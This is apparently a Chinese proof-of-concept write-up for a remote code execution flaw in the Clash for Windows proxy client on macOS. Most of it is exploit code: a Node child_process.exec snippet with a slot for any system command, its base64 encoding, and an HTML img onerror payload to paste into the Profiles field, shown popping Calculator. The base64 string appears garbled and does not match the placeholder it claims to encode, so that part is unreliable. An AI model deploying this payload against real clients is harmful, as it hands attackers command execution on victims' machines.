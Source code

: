 # clash_rce_mac


0x01 工具介绍

````
一个 Go 语言开发的多平台代理客户端
````

项目地址：

https://github.com/Fndroid/clash_for_windows_pkg/releases



0x02 漏洞复现

exp：

````
require('child_process').exec('需要执行的系统命令',(error, stdout, stderr)=>{     alert(`stdout: ${stdout}`); });
````

将以上代码base64编码：

````
cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJwCBZ0yE+9995CcsKGVycm9yLCBzdGRvdXQsIHN0ZGVycik9PnsgICAgIGFsZXJ0KGBzdGRvdXQ6ICR7c3Rkb3V0fWApOyB9KTs=
````

最终的payload：

````
<img src=x onerror='eval(new Buffer(`你的base64payload`,`base64`).toString())'>
````



在Profiles菜单栏的输入框输入，点击Download

![image-20220228103847114](image-20220228103917531.png)



成功弹出计算机。

mac 弹计算机命令

````
open -a Calculator
````



![image-20220228104000594](image-20220228104000594.png)



